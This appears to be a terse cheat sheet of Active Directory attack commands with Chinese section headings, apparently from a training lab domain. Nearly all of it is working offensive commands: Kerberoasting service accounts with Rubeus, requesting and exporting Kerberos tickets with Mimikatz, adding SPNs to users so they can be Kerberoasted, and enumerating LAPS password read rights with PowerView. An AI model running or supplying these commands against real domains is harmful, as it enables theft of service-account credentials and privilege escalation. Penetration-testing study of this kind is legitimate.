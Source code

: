 # 请求指定用户的spn
```
Rubeus.exe kerberoast /user:appsvc /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

# 请求一张ticket
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

# 使用mimikatz dump出ticket
```
PS C:\AD\Tools> . C:\AD\Tools\Invoke-Mimikatz.ps1
PS C:\AD\Tools> Invoke-Mimikatz -Command '"kerberos::list /export"
```

# 设置SPN

ad
```
Set-ADUser -Identity Support132User -ServicePrincipalNames @{Add='us/myspn132'} -Verbose
```
pv
```
Set-DomainObject -Identity Support132User -Set @{serviceprincipalname='us/myspn132'} -Verbose
```

# 枚举LAPS

```
PS C:\ad\Tools>  C:\AD\Tools\Get-LapsPermissions.ps1

Read Rights

organizationalUnit                     IdentityReference
------------------                     -----------------
OU=MailMgmt,DC=us,DC=techcorp,DC=local US\studentusers

Write Rights

OU=MailMgmt,DC=us,DC=techcorp,DC=local NT AUTHORITY\SELF
```

pv
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```
